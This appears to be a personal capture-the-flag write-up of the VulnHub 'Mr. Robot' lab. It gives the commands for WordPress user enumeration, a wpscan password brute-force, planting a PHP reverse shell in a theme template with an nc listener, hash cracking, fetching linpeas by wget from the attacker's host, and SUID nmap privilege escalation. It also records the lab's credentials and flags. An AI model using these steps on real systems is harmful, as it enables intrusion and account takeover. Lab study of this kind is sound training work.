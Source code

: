 
ip = 192.168.1.13
first running port scan on the target
# nmap 
open ports : 80,443,22
22/tcp  closed ssh      conn-refused
80/tcp  open   http     syn-ack      Apache httpd
443/tcp open   ssl/http syn-ack      Apache httpd
# Port 80 http
we get a web shell on the website
http://192.168.1.13/prepare
 http://192.168.1.13/fsociety
 http://192.168.1.13/inform
 http://192.168.1.13/question
 http://192.168.1.13/wakeup
 http://192.168.1.13/join
# gobuster
website is running on wordpress
![[Pasted image 20211203170611.png]]
found robots.txt
fsocity.dic
key-1-of-3.txt
![[Pasted image 20211203171152.png]]
![[Pasted image 20211203171203.png]]

First KEY= 073403c8a58a1f80d943455fb30724b9

![[Pasted image 20211203171311.png]]

found /phpmyadmin but only accessible by local host
![[Pasted image 20211203171434.png]]

after looking here and there for a while i decided to look into using 
downloaded fsocity.dic file seems like it's a dictionary of passwords but has duplicates
we can sort fsocity.dic | uniq > newfsocity.dic
and leave it for now

# wpscan 
wp scan --url mrrobot.vuln -e u 
and we got something interesting 
![[Pasted image 20211203174042.png]]
XML-RPC enabled 
 WordPress version 4.3.1
# enumerating wordpress login
tried root admin superuser administrator but always same error 
![[Pasted image 20211203181422.png]]
tried the series main characters 
mrrobot
mr.robot
elliot 
![[Pasted image 20211203181502.png]]
and we get a hit
 now we can try to brute force the password with the file we downloaded earlier from robots.txt
 using wpscan
 wpscan --url mrrobot.vuln -U elliot -P ~/Downloads/newfsocity.dic
 and we have [[00 Progress/Boxes/VulHub/Linux/mrRobot/04 Creds]]
 ![[Pasted image 20211203181631.png]]
 
 ![[Pasted image 20211203181734.png]]
we are in wordpress now
we can try to upload a reverse shell into plugins or templates
let's do themes templates 
first we open appearance and use the editor 
![[Pasted image 20211203183416.png]]
now let's get our php-reverse-shell 
![[Pasted image 20211203183449.png]]
and use 404.php template and delete it's content and add our reverse shell
![[Pasted image 20211203183516.png]]
let's open  our listener on 4444
nc -lvnp 4444
and we try to access the page
![[Pasted image 20211203183538.png]]
mrrobot.vuln/wp-content/themes/twentythirteen/404.php
![[Pasted image 20211203183606.png]]
and we are in!

let's start with getting stable shell
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
$ export TERM=xterm
looking into home we find a directory called robot
![[Pasted image 20211203183931.png]]
we can access the password.raw-md5 file 
which probably contains the password for robot 
robot:c3fcd3d76192e4007dfb496cca67e13b
let's try to crack it with hashcat
hashcat -m 0 -a 0 -o cracked.txt hash /usr/share/wordlists/rockyou.txt 
![[Pasted image 20211203184759.png]]
su robot 
abcdefghijklmnopqrstuvwxyz
![[Pasted image 20211203184909.png]]

Second KEY  = 822c73956184f694993bede3eb39f959
![[Pasted image 20211203184934.png]]


let's run linpeas
python -m http.server
wget 192.168.1.7:8000/linpeas.sh linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
Linux version 3.13.0-55-generic
gcc version 4.8.2
Sudo version 1.8.9p5
![[Pasted image 20211203190511.png]]
![[Pasted image 20211203190923.png]]
nmap has setuid?
looking around in how to use nmap with suid
https://oscpnotes.infosecsanyam.in/My_OSCP_Preparation_Notes--LINUX_-_Privilege_Escalation--LINUX_-_SUID_-_NMAP.html
![[Pasted image 20211203192146.png]]
![[Pasted image 20211203192246.png]]
Third KEY  = 04787ddef27c3dee1ee161b21670b4e4

# Found Creds

| Service   | Username | password |
| --------- | -------- | -------------------------- |
| wordpress | elliot   | ER28-0652                  |
| user      | robot    | abcdefghijklmnopqrstuvwxyz |

# Conclusion
- Word was vulnerable to Password Brute forcing 
- Wordpress was vulnerable to  uploading reverse shell to the Themes templates
- stored password in home directory lead to compromising higher privileged user in the system
- having setuid on Binary file that lead to privilege escalation to root   
